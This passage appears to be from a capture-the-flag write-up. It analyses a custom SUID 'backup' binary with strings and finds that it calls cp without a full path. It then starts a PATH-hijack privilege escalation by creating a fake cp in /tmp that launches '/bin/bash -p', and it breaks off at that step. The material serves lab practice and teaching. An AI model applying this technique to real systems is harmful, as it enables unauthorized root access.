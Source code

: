 In normal case of SUID bit set binaries we can go to GTFOBins and look up for a privesc method but this appears to be a custom binary, so GTFOBins won't be helpful.

So, we can start analyzing the binary itself. As the first step, we can run `strings` over the binary and see if we can find something useful.

```bash
archangel@ubuntu:~/secret$ strings backup
strings backup
/lib64/ld-linux-x86-64.so.2
setuid
system
__cxa_finalize
setgid
__libc_start_main
libc.so.6
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
cp /home/user/archangel/myfiles/* /opt/backupfiles
:*3$"
GCC: (Ubuntu 10.2.0-13ubuntu1) 10.2.0
/usr/lib/gcc/x86_64-linux-gnu/10/../../../x86_64-linux-gnu/Scrt1.o
```

Here, we can see that files from directory `/home/user/archangel/myfiles/*` are being copied to `/opt/backupfiles`. Here as we can see a wildcard(`*`) is being used, we can try to exploit it in a similar way as it can be done for `tar` command. But after searching a lot over the internet, we can't find any wildcard privilege escalation for `cp`. 

We can also try to create a file in the source directory but that won't be of any use as we won't be able to execute it as well as we are not allowed to create a directory in `/home`. So, we need to look for something else.

We can check the `/opt/backupfiles` as well to get some more hint. But again nothing useful can be found over there.

After giving in a lot of time and re-analyzing everything. We can see the answer was right in front of us. In the `backup` binary. The command `cp` is being called but without its full path being mentioned. So, we can create a fake `cp` executable in and prepend its location to `$PATH`. So, whenever `cp` is called our malicious binary gets executed instead of the original `cp` command. This can be done as:

1. Create a fake `cp` file in `/tmp` directory and add the following code to it.

   ```bash
   archangel@ubuntu:/opt/backupfiles$ cd /tmp
   cd /tmp
   archangel@ubuntu:/tmp$ touch cp
   touch cp
   archangel@ubuntu:/tmp$ echo "/bin/bash -p" > cp
   echo "/bin/bash -p" > cp
   archangel@ubuntu:/tmp$ cat cp
   cat cp
   /bin/bash -p
   ```
